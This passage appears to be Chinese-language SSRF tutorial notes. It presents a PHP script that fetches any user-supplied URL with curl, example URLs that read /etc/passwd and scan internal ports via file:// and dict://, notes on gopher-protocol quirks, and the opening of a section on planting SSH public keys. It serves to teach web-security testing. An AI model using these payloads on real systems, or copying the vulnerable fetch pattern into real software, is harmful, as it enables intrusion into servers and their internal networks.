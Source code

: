 	<?php
	$ch = curl_init();
	curl_setopt($ch, CURLOPT_URL, $_GET['url']);
	#curl_setopt($ch, CURLOPT_FOLLOWLOCATION, 1);
	curl_setopt($ch, CURLOPT_HEADER, 0);
	#curl_setopt($ch, CURLOPT_PROTOCOLS, CURLPROTO_HTTP | CURLPROTO_HTTPS);
	curl_exec($ch);
	curl_close($ch);
	?>

查看 /etc/passwd

http://ip/ssrf.php?url=file:///etc/passwd

![](images/1.jpg)

扫内网开放端口

http://ip/ssrf.php?url=dict://ip:22

![](images/2.jpg)

加载远程图片 (本服务端代码未成功，显示的二进制)

![](images/3.jpg)


**大部分 PHP 并不会开启 fopen 的 gopher wrapper**

file_get_contents 的 gopher 协议不能 URLencode

file_get_contents 关于 Gopher 的 302 跳转有 bug，导致利用失败

curl/libcurl 7.43 上 gopher 协议存在 bug（%00 截断），经测试 7.49 可用

curl_exec() //默认不跟踪跳转，

file_get_contents() // file_get_contents支持php://input协议

### 写linux 公钥

linux免密登录：

原理：**用户将自己的公钥储存在远程主机上。登录的时候，远程主机会向用户发送一段随机字符串，用户用自己的私钥加密后，再发回来。远程主机用事先储存的公钥进行解密，如果成功，就证明用户是可信的，直接允许登录shell，不再要求密码。**

参考资料：[SSH原理与运用（一）：远程登录](https://www.ruanyifeng.com/blog/2011/12/ssh_remote_login.html)

条件：
